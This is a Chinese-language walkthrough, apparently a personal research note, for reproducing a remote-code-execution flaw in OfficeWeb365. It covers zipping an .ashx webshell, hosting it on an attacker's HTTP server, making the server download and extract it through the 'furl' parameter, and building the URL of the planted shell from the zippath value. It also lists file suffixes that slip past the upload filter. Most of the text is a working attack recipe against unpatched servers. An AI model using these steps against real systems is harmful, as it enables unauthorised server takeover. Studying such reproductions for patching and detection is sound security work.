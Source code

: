 ![](https://cdn.nlark.com/yuque/0/2024/png/12959325/1706067249406-d037a91b-f8c6-444d-973a-851e09b217c7.png)

一、远程下载自解压的漏洞新后缀复现思路以及代码分析漏洞流程-
------------------------------

### 0.1、查看修复情况

v8.6.1--没有开启furl-base64加密-复现--失败-cache/office/下连txt都不能访问，cache/其他目录的话既可以用xamlx重新造成`RCE`

可以看到新版就把furl漏洞修复了

![](https://cdn.nlark.com/yuque/0/2024/png/12959325/1706068225000-672e3c12-e17f-4b9b-a206-ff8d41b62480.png)

### 0.2、复现--xamlx/resx/resources后缀成功--以及过滤后缀-aspx/asmx/asp/ashx/soap/

1、打包下载

需要提前准备 2 个文件，一个 ashx 和一个 txt 文件

将这两个文件打包为 2.zip，然后起一个 http 服务提供给网站远程下载

然后访问?furl=[http://你的公网服务器/2.zip](http://xn--6qqt3cr0as7hx7zwgvw8n/2.zip)

```php
http://localhost:8088/?furl=http://10.10.11.1:88/zip.zip
```

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1695985424649-93dd0827-53e6-45cd-b3fb-d12644689983.png)

2、找路径-预览拿到路径去拼接-shell路径--去本地看到物理路径--为什么zip里要有个jpg，只是为了拿到zippath这串数字

[http://10.10.11.167:8088/?hostPort=xxxxx.88&amp;zippath=823082917202033900300451\_125122&amp;fname=zip%5Cyct.jpg](http://10.10.11.167:8088/?hostPort=43.156.64.240.88&zippath=823082917202033900300451_125122&fname=zip%5Cyct.jpg)

```php
C:\OfficeWeb365\officeweb\cache\office\xxxxx.88\823082917202033900300451_125122\zip\img.ashx

http://10.10.11.167:8088/?hostPort=xxxxx.88&zippath=823082917202033900300451_125122&fname=zip\yct.jpg

http://10.10.11.167:8088/cache/office/xxxxx.88/823082917202033900300451_125122/zip/img.ashx
```

![](https://cdn.nlark.com/yuque/0/2024/png/12959325/1706067562384-4531b655-6011-4ef8-b983-0877657ea47c.png)

随后即可发现网站对该 zip 进行了下载和解压，这里可以预览 txt 格式文件获取 zippath 参 数的值

3、everything确定shell位置-然后 ashx 文件的地址即为:

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1695994987607-9168db45-a8eb-483a-b3b8-9f254af30b7a.png)

4、resx也可以创建目录使用-直接压缩包里的`App_LocalResources`这个`全局资源目录`也可以在压缩包里创建访问

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1695995470959-83defba3-e3f6-428d-9a15-a6ced411e7e6.png)
